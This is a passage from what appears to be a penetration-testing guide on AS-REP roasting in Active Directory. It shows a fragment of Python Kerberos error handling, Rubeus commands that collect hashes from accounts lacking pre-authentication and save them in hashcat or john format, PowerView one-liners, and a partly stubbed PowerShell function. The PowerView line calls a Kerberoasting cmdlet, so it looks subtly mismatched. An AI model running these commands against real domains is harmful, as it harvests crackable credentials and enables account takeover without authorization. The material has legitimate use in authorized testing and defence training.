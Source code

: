 ```python
        
        # Send request and capture response
        # Implementation details...
        
    except KerberosError as e:
        if e.getErrorCode() == constants.ErrorCodes.KDC_ERR_PREAUTH_REQUIRED.value:
            print(f"[+] {username} requires pre-authentication (not vulnerable)")
        else:
            print(f"[+] {username} - AS-REP hash obtained!")
```

### Windows-Based Tools

#### Rubeus
**Basic AS-REP Roasting:**
```cmd
# AS-REP roast all vulnerable users
Rubeus.exe asreproast /outfile:hashes.txt

# Target specific user
Rubeus.exe asreproast /user:username /outfile:hash.txt

# Custom domain controller
Rubeus.exe asreproast /dc:dc.company.com /outfile:hashes.txt
```

**Advanced Usage:**
```cmd
# Different output formats
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
Rubeus.exe asreproast /format:john /outfile:hashes.txt

# Use existing TGT for authentication
Rubeus.exe asreproast /ticket:base64_tgt_here

# LDAP path specification
Rubeus.exe asreproast /ldapfilter:"(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
```

#### PowerShell Scripts
```powershell
# PowerView AS-REP roasting
Import-Module PowerView.ps1
Get-DomainUser -PreauthNotRequired | Get-DomainSPNTicket -Format Hashcat

# Custom PowerShell function
function Invoke-ASREPRoast {
    param(
        [string]$Domain = $env:USERDNSDOMAIN,
        [string]$DomainController,
        [string[]]$Users
    )
    
    if ($Users) {
        foreach ($User in $Users) {
            # Request AS-REP for specific user
            $AsReq = New-Object System.DirectoryServices.Protocols.SearchRequest
            # Implementation...
        }
    } else {
        # Enumerate all vulnerable users
        $Searcher = [adsisearcher]"(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
```